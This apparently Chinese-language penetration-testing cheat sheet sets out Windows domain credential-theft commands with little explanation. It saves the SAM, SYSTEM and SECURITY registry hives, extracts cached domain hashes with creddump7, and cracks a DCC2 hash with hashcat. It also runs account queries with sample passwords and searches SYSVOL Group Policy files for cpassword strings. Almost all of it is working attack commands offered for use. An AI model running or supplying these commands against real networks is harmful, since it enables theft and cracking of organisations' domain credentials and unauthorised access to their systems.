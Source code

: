 ```
logintester.bat -s server.txt -u server.txt -o output.txt
```

### 域登录缓存mscash

- 导出注册表

```
reg save hklm\sam sam.hive & reg save hklm\system system.hive & reg save hklm\security security.hive 导出注册表
```

- Creddump7提取mscash

```
cachedump.py system.hive securityhive true (2003 false)
```

- 查看用户状态

```
net user username /domain
```
```
ldifde.exe -u -r "(sAMAccountName=adminjk)" -l pwdLastSet -s pdc.test.ad -b john test.ad Passw0rd. -f out.txt 

w32tm /ntte 130XXXXXXX 查询完使用w32tm转化时间格式
```
```
AdFind.exe -u pdc.test.ad -u test.ad\john -up Passw0rd. -default -f "(sAMAccountName=adminjk)" pwdLastSet userAccountControl -int8time pwdLastSet
```
 >userAccountControl
  [AD 用户属性userAccountControl的详细解释 ](http://blog.sina.com.cn/s/blog_a1c8858c0101f73i.html)
  [userAccountControl](http://blog.sina.com.cn/s/blog_a1c8858c0101f73i.html
https://support.microsoft.com/zh-cn/help/305144/how-to-use-useraccountcontrol-to-manipulate-user-account-properties)

- hashcat跑密码

```
hashcat -a 3 -m 2100 --force ‘$DCC2$10240#adminjk#259108604cb524e8c044d5cda274bae1’
```
### GPP（组策略漏洞）
>受影响文件
**Groups.xml, Services\Services.xml ScheduledTasks\ScheduledTasks.xml Printers\Printers.xml Drives\Drives.xml DataSources\DataSources.xml**

> 文件中查找类似的字符串
cpassword=“j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw”

- 查看SYSVOL目录

```
net view \\域控制器
```
